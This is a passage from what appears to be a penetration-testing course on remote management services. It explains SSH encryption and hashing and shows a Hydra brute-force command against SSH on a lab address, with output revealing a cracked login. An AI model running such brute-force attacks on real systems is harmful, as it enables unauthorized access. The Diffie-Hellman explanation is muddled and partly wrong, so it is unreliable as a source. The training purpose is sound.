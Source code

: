 If the login was successful, a terminal session is initialized using the [Powershell Remoting Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-psrp/602ee78e-9a19-45ad-90fa-bb132b7cecec) (`MS-PSRP`), which simplifies the operation and execution of commands.

## SSH

[Secure Shell](https://www.ssh.com/academy/ssh/protocol) (`SSH`) is a more secure way to connect to a remote host to execute system commands or transfer files from a host to a server. The SSH server runs on `TCP port 22` by default, to which we can connect using an SSH client. This service uses three different cryptography operations/methods: `symmetric` encryption, `asymmetric` encryption, and `hashing`.

### **Symmetric Encryption**

Symmetric encryption uses the `same key` for encryption and decryption. Anyone who has access to the key could also access the transmitted data. Therefore, a key exchange procedure is needed for secure symmetric encryption. The [Diffie-Hellman key exchange](https://en.wikipedia.org/wiki/Diffie%E2%80%93Hellman_key_exchange) method is used for this purpose. If a third party obtains the key, it cannot decrypt the messages because the key exchange method is unknown. However, this is used by the server and client to determine the secret key needed to access the data. Many different variants of the symmetrical cipher system can be used, such as AES, Blowfish, 3DES, etc.

### **Asymmetric Encryption**

Asymmetric encryption uses `two keys`: a private key and a public key. The private key must remain secret because only it can decrypt the messages that have been encrypted with the public key. If an attacker obtains the private key, which is often not password protected, he will be able to log in to the system without credentials. Once a connection is established, the server uses the public key for initialization and authentication. If the client can decrypt the message, it has the private key, and the SSH session can begin.

### **Hashing**

The hashing method converts the transmitted data into another unique value. SSH uses hashing to confirm the authenticity of messages. This is a mathematical algorithm that only works in one direction.

### **Hydra - SSH**

We can use a tool like `Hydra` to brute force SSH. This is covered in-depth in the [Login Brute Forcing](https://academy.hackthebox.com/course/preview/login-brute-forcing) module.

```shell-session
$ hydra -L user.list -P password.list ssh://10.129.42.197

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-10 15:03:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries (l:5/p:5), ~2 tries per task
[DATA] attacking ssh://10.129.42.197:22/
[22][ssh] host: 10.129.42.197   login: user   password: password
1 of 1 target successfully completed, 1 valid password found
```
